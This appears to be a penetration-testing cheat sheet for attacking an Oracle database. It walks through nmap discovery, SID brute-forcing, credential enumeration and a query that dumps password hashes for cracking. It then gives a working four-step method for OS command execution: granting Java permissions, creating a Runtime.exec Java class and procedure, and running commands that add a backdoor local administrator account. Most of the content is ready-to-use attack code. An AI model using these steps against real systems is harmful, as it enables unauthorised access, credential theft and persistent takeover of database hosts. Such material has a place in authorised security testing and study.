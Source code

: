 # ORACLE Database Cheat Sheet
This module will provide us with enough information to get going with a compromised Oracle database.

## Database Discovery
Nmap can be used to discover a database running on our target system like so,

`nmap -A -p 1521 (TARGET IP ADDRESS)`

## Database Enumeration
Once discovered, we can perform some light and heavy enumeration. We must be careful not to lock out any accounts.

### NMAP NSE Scripts
Nmap can be used to brute force a SID from an Oracle service. This is essentially the Database name. I would recommend building your own oracle-sids file to use from your other service / os / etc enumeration results. Even the hostname / domain names can be added to this file.

`nmap --script oracle-sid-brute -p 1521 (TARGET IP ADDRESS)`

### OScanner
[oscanner](https://tools.kali.org/vulnerability-analysis/oscanner) is a tool that can be used to enumerate users and passwords from a database.

`root@kali:~# oscanner -s (TARGET IP ADDRESS)`

## SQL Syntax
We can issue the following commands with an interface to the database. This could be SQLPlus, or DBeaver.

### Get all Usernames and Hashed Passwords:
To concatenate the usernams and passwords with a colon to be used by John the Ripper, do:

`SELECT Username || ':' || PASSWORD AS credentials FROM DBA_USERS;`

## SYSTEM-Level Command Excecution
**Step 1: Add the correct permissions.** 

This PL/SQL query will take a minute or two to complete and cannot be done using __dbeaver__, it must be done with the __sqlPlus>__ client provided by __Oracle__ to avoid a serious escaping issue with the driver used by dbeaver.
```
DECLARE
  l_schema VARCHAR2(30) := 'SYSTEM';
BEGIN
  DBMS_JAVA.grant_permission(l_schema, 'java.io.FilePermission', '<<ALL FILES>>', 'read ,write, execute, delete');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
END;
/
```
If successful, it will say *PL/SQL procedure successfully completed.* If using SQLPlus, don't worry about the added numbers, that is a flaw with the terminal / shell in the garbage Oracle code for SQLPlus; it will be ignored when executed.

**Step 2: Create Java Code to Execute:**

```
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "mycmd" AS
import java.lang.*;
import java.io.*;
 
public class mycmd
{
 public static void execCommand (String command) throws IOException
 {
     Runtime.getRuntime().exec(command);
 }
};
/
```
If successful you will see *Java created.*

**Step 3: Create a Procedure**

```
CREATE OR REPLACE PROCEDURE run_cmd (p_command IN VARCHAR2)
AS LANGUAGE JAVA
NAME 'mycmd.execCommand (java.lang.String)';
/
```
If successful, you will see *Procedure Created*.

**Step 4: Execute Commands (__1 COMMAND AT A TIME__):**

`exec run_cmd('net user npn pwned12345 /add');`

`exec run_cmd('net localgroup Administrators npn /add');`

If each command is successful, you will see *PL/SQL procedure successfully completed.*. If there is a failure, start the whol process over from step 1 and make sure that the formatting is correct and that each SQL query completes successfully.
